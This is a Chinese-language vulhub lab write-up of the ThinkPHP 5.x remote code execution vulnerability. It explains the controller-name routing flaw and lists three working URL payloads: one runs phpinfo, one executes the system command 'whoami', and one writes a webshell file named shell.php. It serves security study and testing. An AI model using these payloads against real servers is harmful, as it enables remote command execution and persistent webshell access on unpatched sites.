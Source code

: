 # Thinkphp5 5.0.22 / 5.1.29远程执行代码漏洞

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​			TThinkPHP是在中国使用极为广泛的PHP开发框架。在其版本5中，由于框架错误地处理了控制器名称，因此如果网站未启用强制路由（默认设置），则该框架可以执行任何方法，从而导致RCE漏洞。

###### 		ThinkPHP5 5.0.20 - 5.1.29

#### payload1：

/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

#### payload2：

index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

#### payload3(文件写入)：

/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=加你要写入的文件内容url编码



​			**默认页面**

![ThinkPHP_5_x_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP_5_x_rce_1.jpg)

​			**payload1,phpinfo被执行**

![ThinkPHP_5_x_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP_5_x_rce_2.jpg)

​			**payload2,whoami被执行**

​	![ThinkPHP_5_x_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP_5_x_rce_3.jpg)



​			**payload3,phpinfo使用url编码**

![ThinkPHP_5_x_rce_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP_5_x_rce_4.jpg)

​			**payload3,访问shell.php phpinfo被执行**

![ThinkPHP_5_x_rce_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP_5_x_rce_5.jpg)

### 0x03参考资料

https://blog.csdn.net/qq_29647709/article/details/84956221


